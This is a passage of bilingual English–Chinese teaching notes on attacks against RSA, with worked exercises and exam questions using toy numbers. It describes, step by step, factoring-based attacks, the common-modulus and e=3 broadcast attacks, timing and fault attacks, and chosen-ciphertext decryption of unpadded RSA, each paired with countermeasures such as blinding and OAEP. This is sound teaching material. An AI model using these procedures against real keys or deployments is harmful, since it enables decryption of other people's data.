| Chosen ciphertext选择密文 | exploit algebraic properties of RSA利用 RSA 的代数性质 | OAEP paddingOAEP 填充 |
Brute force is defeated by a large key space. Larger keys also slow down key generation, encryption and decryption.穷举攻击可以通过足够大的密钥空间来防御。更大的密钥也会减慢密钥生成、加密和解密。
There are three mathematical approaches.数学方法有三种。
- Factor \(n\) into \(p\) and \(q\), then compute \(\phi(n)\) and \(d\).把 \(n\) 分解为 \(p\) 和 \(q\)，然后计算 \(\phi(n)\) 和 \(d\)。
- Find \(\phi(n)\) directly, which gives \(d\) as well.直接求出 \(\phi(n)\)，也就得到了 \(d\)。
- Find \(d\) directly.直接求出 \(d\)。
Finding \(\phi(n)\) is equivalent to factoring \(n\). With known algorithms, finding \(d\) appears at least as hard. So factoring（因数分解）is the benchmark for RSA security.求出 \(\phi(n)\) 等价于分解 \(n\)。就已知算法而言，求出 \(d\) 看起来至少同样困难。因此因数分解是衡量 RSA 安全性的基准。
A modulus must never be shared between users. If two users share \(n\) and have coprime exponents, a message sent to both can be recovered without a private key (Practice Q3).模数绝不能在用户之间共享。如果两个用户共享 \(n\) 且他们的指数互素，那么发给两人的消息无需私钥即可恢复（见练习 Q3）。
Step 2: factoring records and key sizes第 2 步：因数分解纪录与密钥长度
| Challenge挑战 | Decimal digits十进制位数 | Bits比特 | Year年份 |
|---|---|---|---|
| RSA-129 | 129 | 428 | 1994 |
| RSA-130 | 130 | 431 | 1996 |
| RSA-155 | 155 | 512 | 1999 |
| RSA-768 | 232 | 768 | 2009 |
| RSA-250 | 250 | 829 | 2020 |
RSA-129 fell in 1994 after eight months of work by over 1600 computers, using the quadratic sieve. RSA-130 was factored with the generalized number field sieve (GNFS)（广义数域筛法）, which needed only 20% of the effort of RSA-129. The special number field sieve is much faster for numbers of special form, and a general breakthrough to that speed is plausible. The threat is therefore twofold: faster computers and better algorithms.RSA-129 于 1994 年被攻破，1600 多台计算机花了八个月时间，使用的是二次筛法。RSA-130 是用广义数域筛法（GNFS）分解的，所需工作量只有 RSA-129 的 20%。特殊数域筛法对特殊形式的数要快得多，而把这种速度推广到一般情形，也并非不可能。因此威胁来自两方面：计算机变得更快，算法也变得更好。
A 768-bit modulus is several thousand times harder to factor than a 512-bit one. A 1024-bit modulus is about a thousand times harder than a 768-bit one. Recommended key lengths:768 位的模数，其分解难度是 512 位的几千倍。1024 位的模数则约为 768 位的一千倍。建议的密钥长度如下：
- NIST SP 800-131A (2015): 2048 bits or longer;NIST SP 800-131A（2015）：2048 位或更长；
- ENISA (2014): 3072 bits or longer for new development;ENISA（2014）：新开发的系统使用 3072 位或更长；
- Canadian CSE (2016): at least 2048 bits, and at least 3072 bits by 2030.加拿大 CSE（2016）：至少 2048 位，到 2030 年至少 3072 位。
Practice练习
Q1. (Calculation) Eve learns \(n=3233\) and \(\phi(n)=3120\). Recover \(p\) and \(q\), and find \(d\) for \(e=17\).Q1.（计算）Eve 获知 \(n=3233\) 与 \(\phi(n)=3120\)。求出 \(p\) 与 \(q\)，并为 \(e=17\) 求出 \(d\)。
Answer
\(s=p+q=n-\phi(n)+1=114\) and \(pq=3233\), so \(t^2-114t+3233=0\). The discriminant is \(114^2-4\cdot3233=12996-12932=64\), hence \(t=(114\pm8)/2\), i.e., \(\{p,q\}=\{61,53\}\). Then \(d=17^{-1} \bmod 3120=2753\) (check: \(17\cdot2753=46801=15\cdot3120+1\)). Knowing \(\phi(n)\) is as bad as knowing the factors.\(s=p+q=n-\phi(n)+1=114\) 与 \(pq=3233\)，故 \(t^2-114t+3233=0\)。判别式为 \(114^2-4\cdot3233=12996-12932=64\)，因此 \(t=(114\pm8)/2\)，即 \(\{p,q\}=\{61,53\}\)。于是 \(d=17^{-1} \bmod 3120=2753\)（验算：\(17\cdot2753=46801=15\cdot3120+1\)）。知道 \(\phi(n)\) 与知道因数同样糟糕。
Q2. (Explain) Name the three mathematical attacks on RSA and say why factoring is the benchmark. What do the factoring records imply for key size?Q2.（解释）说出针对 RSA 的三种数学攻击，并说明为什么因数分解是衡量基准。因数分解的纪录对密钥长度意味着什么？
Answer
(1) Factor \(n\) and compute \(\phi(n)\) and \(d\); (2) compute \(\phi(n)\) directly (equivalent to factoring, Q1); (3) compute \(d\) directly (with known algorithms at least as hard as factoring). So RSA is judged by the best known factoring algorithm. Records: RSA-129 (428 bits) in 1994, 768 bits in 2009, 829 bits in 2020, with GNFS needing far less effort than the quadratic sieve. Both computing power and algorithms improve, so 1024-bit moduli are phased out and at least 2048 bits (NIST), or 3072 bits for new systems (ENISA), are recommended.(1) 分解 \(n\)，并计算 \(\phi(n)\) 与 \(d\)；(2) 直接计算 \(\phi(n)\)（与分解等价，见 Q1）；(3) 直接计算 \(d\)（按已知算法，至少与分解同样困难）。因此，RSA 的安全性以已知的最佳因数分解算法来衡量。纪录为：1994 年的 RSA-129（428 位），2009 年的 768 位，2020 年的 829 位，其中 GNFS 所需的工作量远小于二次筛法。计算能力和算法都在进步，因此 1024 位模数正在被淘汰，推荐至少使用 2048 位（NIST），新系统则使用 3072 位（ENISA）。
Q3. (Going further: common modulus) Two users share the modulus \(n=187\) with \(e_1=3\) and \(e_2=7\). The same \(M\) is sent to both, and Eve sees \(C_1=111\) and \(C_2=144\). Recover \(M\) without any private key.Q3.（进阶：共模）两个用户共享模数 \(n=187\)，其公钥指数分别为 \(e_1=3\) 与 \(e_2=7\)。同一 \(M\) 被发送给两人，Eve 看到了 \(C_1=111\) 与 \(C_2=144\)。在不知道任何私钥的情况下求出 \(M\)。
Answer
\(\gcd(3,7)=1\) and \(3\cdot(-2)+7\cdot1=1\). Therefore \(C_1^{-2}C_2=M^{-6}M^{7}\equiv M \pmod n\). Now \(C_1^{-1}\equiv155 \pmod{187}\) (since \(111\cdot155=17205=92\cdot187+1\)) and \(155^2\equiv89\), so \(M\equiv89\cdot144=12816\equiv100 \pmod{187}\). A modulus must therefore never be shared between users (also, anyone who knows a pair \((e,d)\) for \(n\) can factor \(n\)).\(\gcd(3,7)=1\) 与 \(3\cdot(-2)+7\cdot1=1\)。因此 \(C_1^{-2}C_2=M^{-6}M^{7}\equiv M \pmod n\)。现在 \(C_1^{-1}\equiv155 \pmod{187}\)（因为 \(111\cdot155=17205=92\cdot187+1\)）且 \(155^2\equiv89\)，故 \(M\equiv89\cdot144=12816\equiv100 \pmod{187}\)。因此，模数绝不能在用户之间共享（此外，任何知道与 \(n\) 对应的一对 \((e,d)\) 的人，都能分解 \(n\)）。
Timing, Fault and Chosen-Ciphertext Attacks ★★计时攻击、故障攻击与选择密文攻击
Goal. Explain the timing attack and blinding, the fault attack, and the chosen-ciphertext attack with its defence OAEP.目标。 解释计时攻击与盲化、故障攻击，以及选择密文攻击及其防御方法 OAEP。
Step 1: timing attack and blinding第 1 步：计时攻击与盲化
In words: the decryption time depends on the bits of d, so an attacker who measures the time learns d bit by bit.用文字表述：解密耗时取决于 d 的各位，因此测量耗时的攻击者可以逐位得知 d。
A timing attack（计时攻击）, due to Kocher, recovers the private exponent by measuring how long decryption takes. In square-and-multiply every iteration squares once, and an iteration with a 1 bit multiplies once more. The attack needs only ciphertexts and timings, so it is a ciphertext-only attack. It works against any implementation that does not run in fixed time.由 Kocher 提出的计时攻击，通过测量解密所花的时间来恢复私钥指数。在平方-乘算法中，每一轮都要做一次平方，遇到 1 的比特位时再多做一次乘法。该攻击只需要密文和耗时，因此它属于唯密文攻击。凡是不以固定时间运行的实现，都会受到这种攻击。
The attacker works from the leftmost bit.攻击者从最左边的一位（最高位）开始。
- Suppose the first \(j\) bits of \(d\) are known.假设 \(d\) 的前 \(j\) 位已知。
- For each observed ciphertext, simulate the first \(j\) iterations. This shows for which ciphertexts the next multiplication would be slow.对每个观测到的密文，模拟前 \(j\) 轮。这样就能看出，对于哪些密文，下一次乘法会很慢。
- If the total time is always long for exactly those ciphertexts, the next bit is 1. If many of them are fast, it is 0.如果恰好是这些密文的总耗时始终较长，则下一位是 1；如果其中许多是快的，则下一位是 0。
- Repeat with the next bit.对下一位重复上述过程。
Real implementations vary little, but statistics over many measurements make the attack practical.实际实现的耗时差异很小，但对大量测量做统计，就能使这种攻击切实可行。
| Countermeasure对策 | How做法 | Drawback缺点 |
|---|---|---|
| Constant exponentiation time恒定幂运算时间 | every exponentiation takes the same time每次幂运算耗时相同 | degrades performance降低性能 |
| Random delay随机延迟 | add a random delay加入随机延迟 | with too little noise, more measurements average it out噪声太小时，更多的测量即可将其平均掉 |
| Blinding盲化 | multiply the ciphertext by a random number first先将密文乘以一个随机数 | 2–10% slower (reported)慢 2–10%（据报告） |
The attacker does not know the value \(C'\) that is being exponentiated, so the bit-by-bit analysis fails.攻击者并不知道正在求幂的值 \(C'\)，因此逐位分析会失效。
Step 2: fault-based attack第 2 步：基于故障的攻击
Inducing faults in the processor that computes RSA signatures, for example by lowering its supply power, produces invalid signatures from which the private key can be recovered. A 1024-bit key was extracted in about 100 hours. The attack needs physical access, so it is not a serious threat to remote servers. The defence is physical protection.对计算 RSA 签名的处理器人为引入故障，例如降低其供电功率，会产生错误的签名，攻击者可以由此恢复私钥。曾有一把 1024 位的密钥在约 100 小时内被提取出来。该攻击需要物理接触，因此对远程服务器的威胁并不严重。防御方法是物理防护。
Step 3: chosen-ciphertext attack and OAEP第 3 步：选择密文攻击与 OAEP
In words: plain RSA is multiplicative, so an attacker can disguise a ciphertext, have it decrypted, and undo the disguise.用文字表述：原始 RSA 具有乘性，因此攻击者可以把密文伪装一下，让它被解密，然后再把伪装去掉。
In a chosen-ciphertext attack (CCA)（选择密文攻击）the adversary submits ciphertexts of his choice and receives their decryptions under the victim's private key. He uses them to break another ciphertext.在选择密文攻击（CCA）中，敌手提交自己选定的密文，并在受害者的私钥下获得它们的解密结果。他利用这些结果去破解另一个密文。
To decrypt an intercepted \(C=M^e \bmod n\) the attacker does three things.为了解密截获的 \(C=M^e \bmod n\)，攻击者要做三件事。
- Compute \(X=C\cdot2^e \bmod n\).计算 \(X=C\cdot2^e \bmod n\)。
- Have \(X\) decrypted. He receives \(Y=X^d \bmod n=2M \bmod n\).让 \(X\) 被解密，他得到 \(Y=X^d \bmod n=2M \bmod n\)。
- Compute \(M=Y\cdot2^{-1} \bmod n\).计算 \(M=Y\cdot2^{-1} \bmod n\)。
This is the algebra of blinding, used by the attacker instead of the defender.这正是盲化所用的代数，只是这里由攻击者使用，而不是防御者。
Randomizing the plaintext before encryption breaks the product relation, but simple random padding is not enough against refined attacks. RSA Security therefore recommends optimal asymmetric encryption padding (OAEP)（最优非对称加密填充）.加密前对明文随机化可以打破乘积关系，但简单的随机填充不足以抵御精巧的攻击。因此，RSA Security 推荐使用 最优非对称加密填充（OAEP）。


With a hash function \(H\) and a mask generating function MGF, encoding has four steps.编码时使用散列函数 \(H\) 和掩码生成函数 MGF，共有四步。
- Form the data block \(DB=H(P)\,\Vert\,\text{zero padding}\,\Vert\,M\), where \(P\) holds optional encoding parameters.构造数据块 \(DB=H(P)\,\Vert\,\text{zero padding}\,\Vert\,M\)，其中 \(P\) 存放可选的编码参数。
- Draw a random seed and compute \(\text{maskedDB}=DB\oplus\text{MGF}(\text{seed})\).随机抽取种子，并计算 \(\text{maskedDB}=DB\oplus\text{MGF}(\text{seed})\)。
- Compute \(\text{maskedSeed}=\text{seed}\oplus\text{MGF}(\text{maskedDB})\).计算 \(\text{maskedSeed}=\text{seed}\oplus\text{MGF}(\text{maskedDB})\)。
- Encrypt the encoded message \(EM=\text{maskedSeed}\,\Vert\,\text{maskedDB}\) with RSA.用 RSA 加密编码后的消息 \(EM=\text{maskedSeed}\,\Vert\,\text{maskedDB}\)。
Decoding unmasks the seed, then \(DB\), and checks \(H(P)\) and the padding. The fresh seed randomizes every encryption. Each part of \(EM\) depends on all the others, so a modified ciphertext decodes to garbage and is rejected. The multiplicative relation no longer holds.解码时先去掉种子的掩码，再去掉 \(DB\) 的掩码，并检查 \(H(P)\) 和填充。每次加密都使用新的种子，因此加密具有随机性。\(EM\) 的每一部分都依赖于其他所有部分，所以被修改过的密文解码后只会得到乱码，并被拒绝。乘性关系也就不再成立。
Practice练习
Q1. (Attack) Alice's key is \(n=187\), \(e=7\), \(d=23\). Eve intercepts \(C=11\) and can have any ciphertext except \(C\) decrypted. Recover \(M\) using the multiplier 3.Q1.（攻击）Alice 的密钥为 \(n=187\)、\(e=7\)、\(d=23\)。Eve 截获了 \(C=11\)，并且可以让除 \(C\) 之外的任意密文被解密。请利用乘数 3 求出 \(M\)。
Answer
\(3^7=2187\equiv130 \pmod{187}\), so \(X=C\cdot3^e\equiv11\cdot130=1430\equiv121\). The oracle returns \(Y=121^{23} \bmod 187=77\), which equals \(3M \bmod 187\). Then \(3^{-1}\equiv125\) (since \(3\cdot125=375=2\cdot187+1\)) and \(M\equiv77\cdot125=9625\equiv88\). Check: \(3\cdot88=264=187+77\).\(3^7=2187\equiv130 \pmod{187}\)，故 \(X=C\cdot3^e\equiv11\cdot130=1430\equiv121\)。预言机返回 \(Y=121^{23} \bmod 187=77\)，它等于 \(3M \bmod 187\)。于是 \(3^{-1}\equiv125\)（因为 \(3\cdot125=375=2\cdot187+1\)），进而 \(M\equiv77\cdot125=9625\equiv88\)。验算：\(3\cdot88=264=187+77\)。
Q2. (Blinding) Decrypt \(C=11\) for the same key with blinding and \(r=2\). Why does blinding defeat the timing attack?Q2.（盲化）对同一密钥，借助盲化和 \(r=2\) 解密 \(C=11\)。为什么盲化能够抵御计时攻击？
Answer
\(r^e=2^7=128\), so \(C'=11\cdot128=1408\equiv99\). The exponentiation yields \(M'=99^{23} \bmod 187=176=rM\). With \(r^{-1}=94\) (since \(2\cdot94=188\equiv1\)): \(M=176\cdot94=16544\equiv88\). The timing attack must know the value being exponentiated to predict which multiplications are slow. With blinding that value is \(C'\), which depends on the fresh secret \(r\), so the attacker's predictions are uncorrelated with the measured times.\(r^e=2^7=128\)，故 \(C'=11\cdot128=1408\equiv99\)。幂运算得到 \(M'=99^{23} \bmod 187=176=rM\)。代入 \(r^{-1}=94\)（因为 \(2\cdot94=188\equiv1\)）得 \(M=176\cdot94=16544\equiv88\)。计时攻击必须知道被取幂的值，才能预测哪些乘法会慢。采用盲化后，该值变为 \(C'\)，它依赖于新的秘密 \(r\)，因此攻击者的预测与实测时间彼此无关。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Cycling attack循环攻击 | Re-encrypt \(C\) until \(C\) reappears; the value before it is \(M\). Infeasible for well-chosen large primes: the cycle is astronomically long对 \(C\) 反复加密，直到 \(C\) 再次出现；它之前的那个值就是 \(M\)。对于精心选取的大素数来说，这是不可行的：循环长得天文数字。 |
| RSA versus elliptic curvesRSA 与椭圆曲线 | At equal strength an elliptic-curve key is far shorter: RSA-2048 matches about a 224-bit and RSA-3072 a 256-bit key在强度相当的情况下，椭圆曲线密钥要短得多：RSA-2048 大致相当于 224 位的密钥，RSA-3072 大致相当于 256 位的密钥。 |
| Session key会话密钥 | A short-lived symmetric key, exchanged with a public-key method and used for the bulk data一种短期使用的对称密钥，用公钥方法交换，并用于加密大量数据。 |
| Authenticator认证器 | A short block computed from a document; signing it is cheaper than encrypting the whole document从文档计算出的一个短分组；对它签名比加密整个文档更省。 |
| Public-key certificate公钥证书 | A document signed by a Certification Authority that binds a name to a public key由证书颁发机构签名的文件，把一个名字与一个公钥绑定起来 |
| PKI | Public-key infrastructure: issues, maintains and revokes certificates公钥基础设施：负责签发、维护和吊销证书 |
| Probable-message attack可能消息攻击 | Encrypt every likely message with the public key and compare; stopped by random padding用公钥加密每一条可能的消息并进行比较；随机填充可以阻止它 |
| Quadratic sieve and GNFS二次筛法与 GNFS | Factoring algorithms: RSA-129 fell to the quadratic sieve, RSA-130 to GNFS with 20% of the effort因数分解算法：RSA-129 被二次筛法攻破，RSA-130 用 GNFS 攻破，工作量只有 20% |
| Block-wise RSA分组 RSA | A long message is cut into blocks below \(n\); each block is encrypted independently长消息被切分成小于 \(n\) 的分组；每个分组独立加密 |
| Fault attack故障攻击 | Lowering the supply power of a signing chip yields wrong signatures that reveal the key; needs physical access降低签名芯片的供电功率会产生错误的签名，从而泄露密钥；需要物理接触 |
Exam-style questions考试题型练习
Q1. (Calculation, 15 marks) Alice chooses the primes \(p=7\) and \(q=19\) and the public exponent \(e=5\). (a) Compute \(n\), \(\phi(n)\) and the private exponent \(d\) with the extended Euclidean algorithm. (4 marks) (b) Bob encrypts \(M=12\); compute \(C\). (3 marks) (c) Alice decrypts \(C\) with square-and-multiply; show the table. (5 marks) (d) State \(PU\) and \(PR\) and say which values must stay secret. (1 mark) (e) How many modular multiplications does (c) need, compared with repeated multiplication? (2 marks)Q1.（计算，15 分）Alice 选取素数 \(p=7\) 与 \(q=19\)，以及公钥指数 \(e=5\)。(a) 用扩展欧几里得算法计算 \(n\)、\(\phi(n)\) 以及私钥指数 \(d\)。（4 分）(b) Bob 加密 \(M=12\)；计算 \(C\)。（3 分）(c) Alice 用平方-乘算法解密 \(C\)；请列出表格。（5 分）(d) 写出 \(PU\) 与 \(PR\)，并说明哪些值必须保密。（1 分）(e) 与重复乘法相比，(c) 需要多少次模乘？（2 分）
Answer
(a) \(n=7\cdot19=133\) and \(\phi(n)=6\cdot18=108\); \(\gcd(5,108)=1\). Euclid: \(108=21\cdot5+3\), \(5=1\cdot3+2\), \(3=1\cdot2+1\). Back-substitution: \(1=3-2=3-(5-3)=2\cdot3-5=2(108-21\cdot5)-5=2\cdot108-43\cdot5\), so \(d\equiv-43\equiv65 \pmod{108}\). Check: \(5\cdot65=325=3\cdot108+1\).(a) \(n=7\cdot19=133\) 与 \(\phi(n)=6\cdot18=108\)；\(\gcd(5,108)=1\)。欧几里得算法：\(108=21\cdot5+3\)、\(5=1\cdot3+2\)、\(3=1\cdot2+1\)。回代：\(1=3-2=3-(5-3)=2\cdot3-5=2(108-21\cdot5)-5=2\cdot108-43\cdot5\)，故 \(d\equiv-43\equiv65 \pmod{108}\)。验算：\(5\cdot65=325=3\cdot108+1\)。
(b) \(12^2=144\equiv11\), \(12^4\equiv121\), so \(C=12^5\equiv121\cdot12=1452\equiv122 \pmod{133}\).(b) \(12^2=144\equiv11\)，\(12^4\equiv121\)，故 \(C=12^5\equiv121\cdot12=1452\equiv122 \pmod{133}\)。
(c) \(65=1000001_2\), so \(k=6\):(c) \(65=1000001_2\)，故 \(k=6\)：
| \(i\) | 6 | 5 | 4 | 3 | 2 | 1 | 0 |
|---|---|---|---|---|---|---|---|
| \(b_i\) | 1 | 0 | 0 | 0 | 0 | 0 | 1 |
| \(c\) | 1 | 2 | 4 | 8 | 16 | 32 | 65 |
| \(f\) | 122 | 121 | 11 | 121 | 11 | 121 | 12 |
The last value \(f=12\) is the plaintext \(M\).最后得到的值 \(f=12\) 即明文 \(M\)。
(d) \(PU=\{5,133\}\) and \(PR=\{65,133\}\). The values \(p\), \(q\), \(\phi(n)\) and \(d\) must stay secret.(d) \(PU=\{5,133\}\) 与 \(PR=\{65,133\}\)。必须保密的值为 \(p\)、\(q\)、\(\phi(n)\) 和 \(d\)。
(e) 6 squarings and 1 multiplication, 7 in all; computing \(C^{65}\) by repeated multiplication needs 64.(e) 6 次平方和 1 次乘法，共 7 次；用重复乘法计算 \(C^{65}\) 需要 64 次。
思路：e·d ≡ 1 (mod φ(n)) 先用扩展欧几里得求 d；解密表按二进制从高位到低位逐步平方、遇 1 再乘 C，最后一格就是明文。
Q2. (Concepts, 12 marks) (a) List the six ingredients of a public-key encryption scheme. (2 marks) (b) Give the equations by which Alice sends \(X\) to Bob (i) with confidentiality, (ii) with authentication, (iii) with both, and say what each service rests on. (4 marks) (c) State the requirements on a public-key algorithm and define a trap-door one-way function. (4 marks) (d) Explain why public-key encryption is not used for bulk data and how it is used instead. (2 marks)Q2.（概念，12 分）(a) 列出公钥加密方案的六个组成部分。（2 分）(b) 给出 Alice 向 Bob 发送 \(X\) 的公式：(i) 具有机密性，(ii) 具有认证性，(iii) 两者兼有，并说明每种服务依赖什么。（4 分）(c) 陈述公钥算法的要求，并定义陷门单向函数。（4 分）(d) 解释为什么公钥加密不用于大量数据，以及它是如何被使用的。（2 分）
Answer
(a) Plaintext, encryption algorithm, public key, private key (a matched pair), ciphertext and decryption algorithm.(a) 明文、加密算法、公钥、私钥（二者配对）、密文和解密算法。
(b) (i) \(Y=E(PU_b,X)\) and \(X=D(PR_b,Y)\): only Bob holds \(PR_b\). (ii) \(Y=E(PR_a,X)\) and \(X=D(PU_a,Y)\): only Alice holds \(PR_a\), so \(Y\) proves origin and integrity (a signature), but anyone can read it. (iii) \(Z=E(PU_b,E(PR_a,X))\) and \(X=D(PU_a,D(PR_b,Z))\): four public-key operations.(b) (i) \(Y=E(PU_b,X)\) 与 \(X=D(PR_b,Y)\)：只有 Bob 掌握 \(PR_b\)。(ii) \(Y=E(PR_a,X)\) 与 \(X=D(PU_a,Y)\)：只有 Alice 掌握 \(PR_a\)，因此 \(Y\) 可证明来源和完整性（即数字签名），但任何人都能读取它。(iii) \(Z=E(PU_b,E(PR_a,X))\) 与 \(X=D(PU_a,D(PR_b,Z))\)：共四次公钥运算。
(c) It must be easy to generate a key pair, to encrypt with the public key and to decrypt with the private key. It must be infeasible to find the private key from the public key, and to recover \(M\) from \(PU_b\) and \(C\). Optionally the two keys work in either order (needed for signatures). A trap-door one-way function is a family \(f_k\) such that \(f_k(X)\) and \(f_k^{-1}(Y)\) are easy when \(k\) is known, but \(f_k^{-1}(Y)\) is infeasible when only \(Y\) is known; \(k\) plays the role of the private key.(c) 生成密钥对、用公钥加密以及用私钥解密都必须容易。由公钥求得私钥必须不可行，由 \(PU_b\) 与 \(C\) 恢复 \(M\) 也必须不可行。两把密钥也可以按任一顺序使用（数字签名需要此性质），这一点是可选的。陷门单向函数是一族 \(f_k\)，使得 \(f_k(X)\) 与 \(f_k^{-1}(Y)\) 在已知 \(k\) 时都容易计算，但在只知道 \(Y\) 时 \(f_k^{-1}(Y)\) 不可行；\(k\) 起着私钥的作用。
(d) Operations on numbers of thousands of bits are slow, so public-key encryption is used only to protect a session key or a hash (key exchange, signatures); the data are encrypted with a fast symmetric cipher (hybrid design).(d) 对数千位数的运算很慢，因此公钥加密仅用于保护会话密钥或散列值（密钥交换、数字签名）；数据则用快速的对称密码加密（混合设计）。
思路：先写六要素，再用 PU/PR 写出三种用法，最后说明为什么只加密会话密钥。
Q3. (Attack analysis, 10 marks) A server sends the same secret to three clients using unpadded RSA with \(e=3\) and three different 2048-bit moduli. (a) Describe the attack that recovers the secret from the three ciphertexts. (5 marks) (b) Show that the attack is even simpler for a short secret, using \(n=187\), \(e=3\), \(M=5\). (3 marks) (c) Give two countermeasures. (2 marks)Q3.（攻击分析，10 分）一台服务器以公钥指数 \(e=3\) 与三个不同的 2048 位模数，使用无填充的 RSA，将同一秘密发送给三个客户端。(a) 描述从三个密文中恢复该秘密的攻击。（5 分）(b) 说明对于较短的秘密，该攻击更加简单，并利用 \(n=187\)、\(e=3\)、\(M=5\) 加以说明。（3 分）(c) 给出两种对策。（2 分）
Answer
(a) With overwhelming probability the moduli are pairwise coprime. Eve holds \(C_i=M^3 \bmod n_i\). The CRT gives the unique \(x<n_1n_2n_3\) with \(x\equiv C_i \pmod{n_i}\). Because \(M<n_i\) for each \(i\), \(M^3<n_1n_2n_3\), so \(x=M^3\) as an integer, and \(M=\sqrt[3]{x}\) is an ordinary integer cube root.(a) 几乎可以肯定模数两两互素。Eve 掌握 \(C_i=M^3 \bmod n_i\)。CRT 给出唯一的 \(x<n_1n_2n_3\)，满足 \(x\equiv C_i \pmod{n_i}\)。由于对每个 \(i\) 都有 \(M<n_i\)，\(M^3<n_1n_2n_3\)，因此 \(x=M^3\) 在整数意义下成立，而 \(M=\sqrt[3]{x}\) 即为普通的整数立方根。
(b) If \(M^3<n\), no modular reduction takes place: \(C=M^3\) over the integers. For \(M=5\): \(5^3=125<187\), so \(C=125\) and Eve simply computes \(\sqrt[3]{125}=5\) from a single ciphertext. (With a 2048-bit modulus this happens for any secret shorter than about 680 bits.)(b) 若 \(M^3<n\)，则不发生任何模约化：在整数范围内有 \(C=M^3\)。对于 \(M=5\)：\(5^3=125<187\)，故 \(C=125\)，于是 Eve 直接由单个密文即可计算出 \(\sqrt[3]{125}=5\)。（对于 2048 位模数，任何短于约 680 位的秘密都会出现这种情况。）
(c) Add fresh random padding to every message (for example OAEP), so that the three plaintexts differ and fill the block; also use a larger public exponent such as 65537, again with padding.(c) 为每条消息添加新的随机填充（例如 OAEP），使三个明文互不相同并充满整个分组；此外还应使用更大的公钥指数，例如 65537，同样需要配合填充。
易错：e=3 的广播攻击靠 CRT 与“M³ 没有超过 n₁n₂n₃”；短消息则连 CRT 都不需要。
Q4. (Timing attack, 12 marks) (a) Explain why square-and-multiply leaks information about the private exponent and outline the bit-by-bit timing attack. (4 marks) (b) Why is it a ciphertext-only attack? (1 mark) (c) Compare three countermeasures. (3 marks) (d) With \(n=55\), \(e=3\), \(d=27\) and \(C=14\), decrypt using blinding with \(r=2\). (4 marks)Q4.（计时攻击，12 分）(a) 解释平方-乘算法为何会泄露关于私有指数的信息，并概述逐位计时攻击。（4 分）(b) 为什么它是唯密文攻击？（1 分）(c) 比较三种对策。（3 分）(d) 给定 \(n=55\)、\(e=3\)、\(d=27\) 与 \(C=14\)，用盲化及 \(r=2\) 进行解密。（4 分）
Answer
(a) Each iteration squares once, and an iteration with a key bit 1 performs an extra multiplication, so the running time depends on the bits of \(d\). The attacker starts at the leftmost bit. Knowing the first \(j\) bits, he simulates the first \(j\) iterations for many ciphertexts and so knows for which ciphertexts the next multiplication would be slow. If the measured total times are consistently long for exactly those ciphertexts, the bit is 1; otherwise it is 0. He then repeats the step for the next bit.(a) 每次迭代都做一次平方，而密钥比特为 1 的迭代还会多执行一次乘法，因此运行时间取决于 \(d\) 的比特。攻击者从最高位开始。已知前 \(j\) 位后，他对大量密文模拟前 \(j\) 次迭代，从而知道对于哪些密文，下一次乘法会很慢。若实测的总时间恰好对这些密文一贯偏长，则该位为 1；否则为 0。随后他对下一位重复上述步骤。
(b) He needs only intercepted ciphertexts and the measured decryption times, not any plaintext.(b) 他只需要截获的密文及测得的解密时间，而不需要任何明文。
(c) Constant exponentiation time is simple but degrades performance. A random delay is faster, but an attacker averages out the noise with more measurements. Blinding randomizes the value being exponentiated and costs only about 2–10%.(c) 恒定幂运算时间的做法简单，但会降低性能。随机延迟的速度较快，但攻击者可以通过更多测量将噪声平均掉。盲化对被取幂的值进行随机化，代价仅约 2–10%。
(d) \(r^e=2^3=8\), so \(C'=14\cdot8=112\equiv2 \pmod{55}\). Then \(M'=2^{27} \bmod 55=18\) (since \(2^{10}\equiv34\), \(2^{20}\equiv1\), \(2^7=128\equiv18\)). With \(r^{-1}=28\) (since \(2\cdot28=56\equiv1\)): \(M=18\cdot28=504\equiv9 \pmod{55}\). Check: \(9^3=729\equiv14=C\).(d) \(r^e=2^3=8\)，故 \(C'=14\cdot8=112\equiv2 \pmod{55}\)。随后 \(M'=2^{27} \bmod 55=18\)（因为 \(2^{10}\equiv34\)、\(2^{20}\equiv1\)、\(2^7=128\equiv18\)）。代入 \(r^{-1}=28\)（因为 \(2\cdot28=56\equiv1\)）得 \(M=18\cdot28=504\equiv9 \pmod{55}\)。验算：\(9^3=729\equiv14=C\)。
思路：盲化三步——C′=C·r^e，普通解密，再乘 r 的逆；先验算 r·M 是否等于 M′。
Q5. (Chosen ciphertext and key sizes, 12 marks) (a) Which property of unpadded RSA allows a chosen-ciphertext attack? (2 marks) (b) With \(n=55\), \(e=3\), \(d=27\), Eve intercepts \(C=14\) and may have any other ciphertext decrypted. Show how she finds \(M\) using the multiplier 3. (4 marks) (c) Describe OAEP and explain how it prevents such attacks. (4 marks) (d) Which RSA key sizes are recommended today, and why is 1024 bits not acceptable? (2 marks)Q5.（选择密文攻击与密钥长度，12 分）(a) 无填充的 RSA 具有哪一性质，使选择密文攻击成为可能？（2 分）(b) 给定 \(n=55\)、\(e=3\)、\(d=27\)，Eve 截获了 \(C=14\)，并可以让其他任意密文被解密。说明她如何利用乘数 3 求得 \(M\)。（4 分）(c) 描述 OAEP，并解释它如何防止此类攻击。（4 分）(d) 当前推荐使用哪些 RSA 密钥长度？为什么 1024 位不可接受？（2 分）
Answer
(a) RSA is multiplicative: \(E(PU,M_1)\cdot E(PU,M_2)\equiv E(PU,M_1M_2) \pmod n\).(a) RSA 具有乘法性：\(E(PU,M_1)\cdot E(PU,M_2)\equiv E(PU,M_1M_2) \pmod n\)。
